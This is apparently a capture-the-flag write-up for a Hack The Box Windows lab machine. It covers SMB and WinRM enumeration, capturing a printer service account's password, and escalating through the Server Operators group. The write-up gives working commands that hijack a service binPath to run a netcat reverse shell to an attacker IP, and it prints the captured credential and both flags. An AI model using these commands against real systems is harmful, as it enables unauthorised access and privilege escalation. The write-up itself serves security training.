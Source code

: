 **Skills Required**
Basic Windows Knowledge
Beginner Active Directory Knowledge
**Skills Learned**
Network Printer Abuse
Server Operators Group Abuse

**Key Concepts:** Windows Remote Management (WinRM), SMB (Server Message Block), Enumeration, Printer Admin Panel, Privilege Escalation, Server Operators Group.

**Key Commands:** winrm, crackmapexec, smbmap, evil-winrm, whoami, net user, sc.exe.

---

**Step 1: Identifying the Target**
- Port 5985 (WinRM) is open for remote Windows administration.
- Tools like evil-winrm can be used with valid credentials.
- Several open ports, including 445 (SMB).

**Step 2: Enumerating the Machine**
```bash
crackmapexec smb 10.10.11.108
```

**Step 3: Listing Shared Resources**
```bash
smbmap -H 10.10.11.108 -u 'null'
```

**Step 4: Focusing on HTTP Enumeration**
```bash
cat lognmap | grep http
```

**Step 5: Identifying Running Services**
```bash
whatweb http://10.10.11.108
```

- It reveals an IIS and a Printer Admin Panel.

**Step 6: Exploring the Printer Admin Panel**
- Upon checking the website, it's a Printer Admin Panel application.
- In the settings section, a connection to port 389 with a username and password is discovered.
- Set up a listener on your machine and make the service on the target connect to your machine to capture the user's password.

**Step 7: Using Credentials with crackmapexec**
```bash
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

- If crackmapexec responds with a "+", the credentials are valid.

**Step 8: Accessing Remote Windows Management (WinRM)**
- Since port 5985 (WinRM) is active and valid credentials are available, attempt to connect to the WinRM service using crackmapexec.
- If the response is "Pwn3d!", you have access to the machine.

```bash
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p 'password'
```

**Step 9: Gaining Access with evil-winrm**
- Now that access is confirmed, use the evil-winrm tool to connect to the victim machine.

```bash
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p 'password'
```

**Step 10: Privilege Escalation**
- To escalate privileges, check the user's privileges and group membership.

```bash
whoami /priv
net user svc-printer
```

- The user is in the "server operators" group.

**Explanation of "server operators" group:** This group allows users to run and stop services, which can be exploited for privilege escalation.

**Step 11: Creating a Custom Service**
- Upload the netcat executable to the victim machine.

```bash
upload /home/klinux/Documents/htb/windows/Return/nc64.exe
```

- Create a custom service.

```bash
sc.exe create reverse binPath="C:\Users\svc-printer\Desktop\nc64.exe -e cmd 10.10.14.8 1234"
```

- If creating the service fails, try manipulating the binPath of an existing service.

```bash
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc64.exe -e cmd 10.10.14.8 1234"
```

**Step 12: Gaining Access as SYSTEM**
- Start a listener on your machine on port 1234.
- Stop and then start the manipulated service (VMTools) as the user is in the "server operators" group.

```bash
sc.exe stop VMTools
sc.exe start VMTools
```

- Gain access as 'nt authority\system'.

**Step 13: Obtaining Root Flag**
- With SYSTEM privileges, obtain the root flag and conclude the machine.

This tutorial provides a detailed step-by-step guide for remote Windows administration and privilege escalation, making it easier to follow and reference key concepts and commands.

User flag 092657ecfad11788d81fbbbd197f897c
Root flag 98eb8eba4af8f70f7ce8837ed8c3c378